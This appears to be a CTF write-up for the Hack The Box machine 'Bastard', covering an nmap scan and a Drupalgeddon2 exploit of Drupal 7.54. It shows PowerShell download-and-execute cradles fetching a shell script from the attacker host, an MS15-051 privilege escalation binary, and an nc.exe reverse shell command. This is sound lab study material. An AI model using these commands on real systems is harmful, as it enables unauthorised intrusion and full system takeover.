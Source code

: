 # Bastard
## Information Gathering
10.10.10.9
Bastard

#### Ports
80
135
49154

#### Passive Recon
- PHP/5.3.28
- Microsoft-IIS/7.5
- X-Powered-By: ASP.NET
- Drupal 7.54


#### On the fly 
- Drupal CMS. Ton of exploits for this

## Enumeration
Start with your nmap scan:
```bash
# Nmap 7.92 scan initiated Sun May 15 10:58:18 2022 as: nmap -vv --reason -Pn -T4 -sV -sC --version-all -A --osscan-guess -oN /home/kali/Documents/Repositories/CTF/LearningPlatforms/hackthebox/machines/medium/bastard/results/10.10.10.9
/scans/_quick_tcp_nmap.txt -oX /home/kali/Documents/Repositories/CTF/LearningPlatforms/hackthebox/machines/medium/bastard/results/10.10.10.9/scans/xml/_quick_tcp_nmap.xml 10.10.10.9
Nmap scan report for 10.10.10.9
Host is up, received user-set (0.057s latency).
Scanned at 2022-05-15 10:58:19 EDT for 82s
Not shown: 997 filtered tcp ports (no-response)
PORT      STATE SERVICE REASON          VERSION
80/tcp    open  http    syn-ack ttl 127 Microsoft IIS httpd 7.5
| http-robots.txt: 36 disallowed entries 
| /includes/ /misc/ /modules/ /profiles/ /scripts/ 
| /themes/ /CHANGELOG.txt /cron.php /INSTALL.mysql.txt 
| /INSTALL.pgsql.txt /INSTALL.sqlite.txt /install.php /INSTALL.txt 
| /LICENSE.txt /MAINTAINERS.txt /update.php /UPGRADE.txt /xmlrpc.php 
| /admin/ /comment/reply/ /filter/tips/ /node/add/ /search/ 
| /user/register/ /user/password/ /user/login/ /user/logout/ /?q=admin/ 
| /?q=comment/reply/ /?q=filter/tips/ /?q=node/add/ /?q=search/ 
|_/?q=user/password/ /?q=user/register/ /?q=user/login/ /?q=user/logout/
|_http-title: Welcome to 10.10.10.9 | 10.10.10.9
|_http-generator: Drupal 7 (http://drupal.org)
| http-methods: 
|   Supported Methods: OPTIONS TRACE GET HEAD POST
|_  Potentially risky methods: TRACE
|_http-favicon: Unknown favicon MD5: CF2445DCB53A031C02F9B57E2199BC03
|_http-server-header: Microsoft-IIS/7.5
135/tcp   open  msrpc   syn-ack ttl 127 Microsoft Windows RPC
49154/tcp open  msrpc   syn-ack ttl 127 Microsoft Windows RPC
```


## Exploitation
Navigating to the webpage shows that it's Drupal 7 CMS. You can navigate to http://10.10.10.9/CHANGELOG.txt which shows that this is Drupal 7.54

Using searchsploit shows that there's a ton of RCE epxloits for Drupal 7. I used [this](https://www.exploit-db.com/exploits/44449) exploit to gain RCE.
```bash
$ ruby drupalgeddon2.py 10.10.10.9
```

Which gives me a wacky partial shell. I staged a three stage persistance exploit
1. Start a python web server `python3 -m http.server 80` while hosting Invoke-PowerShellTcp.ps1
2. Start a reverse shell `nc -lnvp 53`
3. Get and execute the file with powershell `powershell iex(new-object net.webclient).downloadstring('http://10.10.14.10/shell.ps1')`

And i catch a reverse shell and get the user flag.

## Privilege Escalation
[This](https://github.com/51x/WHP) repository has a lot of good information for manually trying to escalate privileges in Windows. I went with [MS15-051](https://www.exploit-db.com/exploits/37049).

Run this exploit:
```powershell
\\10.10.14.10\pwn\ms15-051x64.exe "whoami"
nt authority\system
```

I started another reverse shell `nc -lnvp 53` and ran the same commands as I did to get foothold
```powershell
\\10.10.14.10\pwn\ms15-051x64.exe "powershell iex(new-object net.webclient).downloadstring('http://10.10.14.10/shell.ps1')"
```

Drops me into a "nt authority/system" shell to get the root flag.

You could've done the same with nc
```powershell
\\10.10.14.10\pwn\ms15-051x64.exe "nc.exe -nv 10.10.14.10 1337 -e cmd.exe"
```